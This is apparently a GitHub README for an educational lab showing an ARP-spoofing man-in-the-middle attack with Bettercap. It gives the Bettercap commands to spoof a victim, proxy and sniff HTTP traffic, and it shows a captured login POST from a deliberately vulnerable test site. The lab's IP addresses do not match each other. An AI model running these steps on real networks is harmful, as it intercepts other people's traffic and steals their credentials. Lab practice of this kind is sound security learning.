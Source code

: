 # ARP-MITM-Bettercap
MITM Attack using ARP Spoofing with Bettercap (Educational Purpose Only)  

## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

1. **Start Bettercap:**
    ```bash
    sudo bettercap -iface eth0
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    net.show
    ```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.94.171
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask victim to visit:**
   ### use http website...
   **Example:**
    ```
    http://testphp.vulnweb.com/login.php
    ```

7. **Captured Output:**
    ```
    POST /userinfo.php uname=loc&pass=mor
    ```
---

## 📄 License
MIT

